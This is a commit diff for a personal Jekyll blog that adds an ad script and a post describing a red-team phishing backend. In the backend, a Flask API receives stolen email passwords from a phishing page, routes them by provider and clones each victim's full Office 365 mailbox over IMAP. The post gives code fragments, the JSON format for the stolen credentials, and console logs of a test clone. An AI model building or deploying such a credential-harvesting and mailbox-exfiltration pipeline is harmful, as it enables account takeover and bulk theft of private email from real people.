

Before and after one commit to pushdword/ret.re, a Jekyll site: the page built from docs/index.html, in a window 1280 px wide. Shown: the top 695 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
added IMAP

````diff
--- a/docs/_includes/analytics.html
+++ b/docs/_includes/analytics.html
@@ -7,3 +7,10 @@
 
   gtag('config', 'UA-132770647-1');
 </script>
+<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
+<script>
+     (adsbygoogle = window.adsbygoogle || []).push({
+          google_ad_client: "ca-pub-6827859874014081",
+          enable_page_level_ads: true
+     });
+</script>
--- /dev/null
+++ b/docs/_posts/2019-01-21-siem-for-rt-test-02.markdown
@@ -0,0 +1,148 @@
+---
+layout: post
+title:  "SIEM for red team - IMAP O365 instant clone via flask REST API"
+date:   2019-01-23 21:32:00 +0000
+categories: phishing siem redteam imap flask rest api
+---
+# REST instant clone O365
+From the previous post, I've said I'd use the following resources/services for this project:
+* CloudFront from AWS
+* Instances from digital ocean or AWS.
+* Python3 scripts to deal with all rest API's
+* ~~OfflineIMAP module for python~~
+    * We'll use pure imaplib instead.
+* MySQL to store history of traffic and events
+* Prelude SIEM - To be reviewed later
+* Gophish or FiercePhish
+
+The progresses have been pushed to github but I'll detail here what I've done so far.
+
+## Python3 scripts to deal with all rest API calls
+I've created 3 python scripts
+* servimap
+* imapCloner
+* processimap
+### servimap
+The servimap is the border REST API based in flask. We have two routes defined on the file.
+
+The root:
+```python
+@app.route('/')
+```
+and the framework:
+```python
+@app.route('/test',methods=['POST'])
+```
+The methods allowed are just POST to post the stolen credentials.
+### Route /test
+The credentials is stolen, the web page will post json in this format:
+```json
+{
+  "client": "The client vendor",
+  "email": "user@email.address",
+  "pass": "stolen password"
+}
+```
+Example:
+```json
+{
+  "client": "O365",
+  "email": "bzeroedbrain@ret.re",
+  "pass": "JustAnE@amPl3Pa$$"
+}
+```
+Depending what client is the program will take a different path.
+The path will be called a different rest api running in another server as explained in the previous post on architecture.
+```python
+content = request.get_json(silent=True)
+c=content['client']
+if(c=="O365"):
+    #call O365
+    requests.post("http://localhost:5010/imapO365",json=content)
+elif(c=="Google"):
+    #call google
+    requests.post("http://localhost:5010/imapGoogle",json=content)
+elif(c=="Other"):
+    #call other, try to guess
+    requests.post("http://localhost:5010/imapTry",json=content)
+```
+The remove server will be the imapCloner
+### imapCloner
+The imapCloner contains some routes to process the mailbox clone via IMAP.
+A problem I found was google marks these connections as suspicious and OAUTH2 is the method that is supported and more secure to connect. But Microsoft Office 365 accepts these connections with no problems.
+
+```python
+#IMAP of Office 365 route
+#TODO: Support THREADS. Need to return 302 or 403 to the client and continue the process on server side.
+@app.route('/imapO365',methods=['POST'])
+```
+### processimap
+This script is is just two basic functions to clone the mailbox using imaplib:
+```python
+def process_imap_folders(M,dir):
+    #iterates the imap folders. we want dem all!
+```
+```python
+def process_mailbox(M,dir):
+    #clone copy all e-mail of that dir on mailbox M to a local dir
+```
+So when the /test is posted with the json, it will post to corresponding client on imapCloner.
+The testclient will just receive, at the moment, "OK":
+```console
+➜  api-imap git:(develop) ✗ python3 testclient.py
+OK
+➜  api-imap git:(develop) ✗ python3 testclient.py
+OK
+```
+The servimap will just detect this as example:
+```console
+➜  api-imap git:(develop) ✗ python3 servimap.py
+ * Serving Flask app "servimap" (lazy loading)
+ * Environment: production
+   WARNING: Do not use the development server in a production environment.
+   Use a production WSGI server instead.
+ * Debug mode: on
+ * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
+ * Restarting with stat
+ * Debugger is active!
+ * Debugger PIN: 271-507-179
+127.0.0.1 - - [21/Jan/2019 00:14:03] "POST /test HTTP/1.1" 200 -
+127.0.0.1 - - [21/Jan/2019 00:15:29] "POST /test HTTP/1.1" 200 -
+127.0.0.1 - - [21/Jan/2019 00:18:48] "POST /test HTTP/1.1" 200 -
+127.0.0.1 - - [21/Jan/2019 00:43:02] "POST /test HTTP/1.1" 200 -
+127.0.0.1 - - [21/Jan/2019 00:48:55] "POST /test HTTP/1.1" 200 -
+127.0.0.1 - - [21/Jan/2019 00:50:52] "POST /test HTTP/1.1" 200 -
+```
+And the cloner will start right away to clone the mailbox:
+```console
+➜  api-imap git:(develop) ✗ /usr/local/bin/python3 /Users/pushdword/ret.re/siem-rt/api-imap/imapCloner.py
+ * Serving Flask app "imapCloner" (lazy loading)
+ * Environment: production
+   WARNING: Do not use the development server in a production environment.
+   Use a production WSGI server instead.
+ * Debug mode: on
+ * Running on http://127.0.0.1:5010/ (Press CTRL+C to quit)
+ * Restarting with stat
+ * Debugger is active!
+ * Debugger PIN: 271-507-179
+ IMAP O365 TRIGGERED
+OK
+DATA:
+[b'0']
+OK
+DATA:
+[b'0']
+OK
+DATA:
+[b'0']
+OK
+DATA:
+[b'18971']
+Writing message b'1'
+Writing message b'2'
+Writing message b'3'
+Writing message b'4'
+Writing message b'5'
+(...)
+```
+An office 365 account was used in this test case. We'll need to fine tune this and put perhaps on the cloud :)
````
